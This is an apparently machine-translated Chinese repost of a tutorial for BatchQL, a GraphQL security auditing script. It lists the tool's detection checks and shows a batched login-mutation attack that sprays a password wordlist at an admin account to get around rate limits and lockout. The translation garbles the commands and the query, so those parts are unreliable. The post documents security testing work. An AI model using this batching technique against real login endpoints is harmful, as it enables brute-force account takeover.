

# BatchQL : GraphQL 安全审计脚本，重点是执行批量 GraphQL 查询和变异

> 原文：<https://kalilinuxtutorials.com/batchql/>

**BatchQL** 是一个 GraphQL 安全审计脚本，专注于执行批量 GraphQL 查询和变异。这个脚本并不复杂，我们欢迎改进。

在探索 GraphQL 批处理攻击的问题空间时，我们发现互联网上有一些博客文章，但是没有工具来执行 GraphQL 批处理攻击。

根据实现的功能，GraphQL 批处理攻击可能相当严重。例如，设想一个密码重置功能，它需要一个发送到您的电子邮件中的 4 位 pin。使用这个工具，您可以在一个 GraphQL 查询中尝试所有 10k pin 尝试。根据密码重置流程的实现细节，这可以绕过任何速率限制或帐户锁定。

**检测**

该工具能够检测以下内容:

*   自省查询支持
*   模式建议检测
*   潜在 CSRF 检测
*   基于查询名称的批处理
*   查询基于 JSON 列表的批处理

**攻击**

目前，该工具仅支持发送基于 JSON 列表的批处理攻击查询。它支持在查询中嵌入变量的场景，或者在 JSON 输入中提供变量的场景。

**用法**

**枚举**

**http://re.local:5000/graphiql❯python batch . py-e 本地主机:8080
模式建议启用。使用超视力恢复模式:https://github.com/nikitastupin/clairvoyance
CSRF 获得基础成功。请确认这是一个有效的问题。
CSRF 邮政成功奠基。请确认这是一个有效的问题。
基于查询名称的批处理:GraphQL 批处理是可能的…预检请求成功。
查询基于 JSON 列表的批处理:GraphQL 批处理是可能的…预检请求成功。大多数提供查询、单词表和大小来执行批处理攻击。**

**批处理攻击**

*   保存包含您的 GraphQL 查询的文件，即`**acc-login.txt**`:

**突变 email loginremembered($ logininput:input rememberedemaillog in！){
email loginremembered(log in input:$ log in input){
authtype {
access token
type name
}
user session response {
user token
userid {
identity type]**

运行以下命令运行 GraphQL 批处理攻击:

**❯python batch . py–query ACC-log in . txt–word list passwords . txt-v ' { " log in input ":{ " email ":" admin @ example . com "，" password ":" # variable # "" remember me ":false } } '–size 100-e http://re.local:5000/graphiql-p localhost:8080**

上述命令执行以下操作:

*   从本地文件 **`--query acc-login.txt`中指定一个查询。**
*   指定了单词表
*   用替换标识符`**-v {"loginInput":{"email":"admin@example.com","password":"#VARIABLE#","rememberMe":false}}**`指定变量输入
*   指定了批量大小
*   指定了端点
*   指定了代理

[**Download**](https://github.com/assetnote/batchql)